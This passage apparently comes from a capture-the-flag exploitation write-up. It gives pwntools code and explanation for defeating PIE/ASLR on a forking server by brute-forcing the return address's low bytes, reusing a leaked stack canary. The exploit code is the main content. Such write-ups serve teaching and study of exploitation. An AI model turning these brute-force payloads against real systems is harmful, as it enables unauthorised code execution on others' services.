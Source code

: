 ```python
        continue
else:
    print("FAILED, no base for you")
    sys.exit(1)

procbase = selectimg + i * 0x1000
print('procbase | 0xffff',hex(procbase))
procbase = p16(procbase)
```

This one is quick.  Only 16 nibbles to try.

The last three nibbles of any function do not change.  The `selectImg` function address ends in `0xe06`; this can be observed from the disassembly.  The 4th nibble however is a mystery, and is governed by PIE/ASLR.

The payload in this case will brute-force the 4th nibble by overwriting just the two LSBytes of the return address.  If unsuccessful, the child will mostly likely segfault, however if successful, code execution will _return_ to the top of `selectImg`.  This can be detected by receiving the menu again.


### Third Pass: Brute-force entire process address

```python
for i in range(4):
    for j in x:
        p = remote(server,port)
        p.recvuntil('[q] QUIT')
        payload = buf + p64(canary) + bp + procbase + p8(j)
        p.send(payload)
        try:
            p.recvuntil('[q] QUIT')
            procbase += p8(j)
            print(hex(u64(procbase + (8 - len(procbase)) * b'\x00')))
            p.close()
            break
        except:
            continue
    else:
        print("FAILED, you prob got an LF (0xa) in stack")
        sys.exit(1)

procbase = u64(procbase + b'\x00\x00') - binary.symbols['selectImg']
print('procbase',hex(procbase))
binary.address = procbase
```

x86_64 address are 48-bits (today).  With the lower 16-bits in hand, brute-forcing the remaining four bytes is next.

The loop above is almost identical to the canary step.  When complete the process base address can be computed.
